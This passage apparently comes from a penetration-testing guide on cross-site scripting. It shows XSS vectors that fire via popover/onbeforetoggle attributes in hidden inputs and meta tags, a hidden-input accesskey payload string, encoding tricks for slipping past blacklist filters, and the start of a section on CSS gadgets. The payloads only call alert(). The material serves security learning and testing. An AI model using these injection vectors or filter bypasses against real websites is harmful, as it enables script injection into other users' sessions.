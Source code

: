 ```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle="alert(1)" />
```

And in **meta tags**:

```html
<!-- Injection inside meta attribute-->
<meta
  name="apple-mobile-web-app-title"
  content=""
  Twitter
  popover
  id="newsletter"
  onbeforetoggle="alert(2)" />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```

From [**here**](https://portswigger.net/research/xss-in-hidden-input-fields): You can execute an **XSS payload inside a hidden attribute**, provided you can **persuade** the **victim** into pressing the **key combination**. On Firefox Windows/Linux the key combination is **ALT+SHIFT+X** and on OS X it is **CTRL+ALT+X**. You can specify a different key combination using a different key in the access key attribute. Here is the vector:

```html
<input type="hidden" accesskey="X" onclick="alert(1)">
```

**The XSS payload will be something like this: `" accesskey="x" onclick="alert(1)" x="`**

### Blacklist Bypasses

Several tricks with using different encoding were exposed already inside this section. Go **back to learn where can you use:**

- **HTML encoding (HTML tags)**
- **Unicode encoding (can be valid JS code):** `\u0061lert(1)`
- **URL encoding**
- **Hex and Octal encoding**
- **data encoding**

**Bypasses for HTML tags and attributes**

Read the[ Blacklist Bypasses of the previous section](#blacklist-bypasses).

**Bypasses for JavaScript code**

Read the J[avaScript bypass blacklist of the following section](#javascript-bypass-blacklists-techniques).

### CSS-Gadgets

If you found a **XSS in a very small part** of the web that requires some kind of interaction (maybe a small link in the footer with an onmouseover element), you can try to **modify the space that element occupies** to maximize the probabilities of have the link fired.
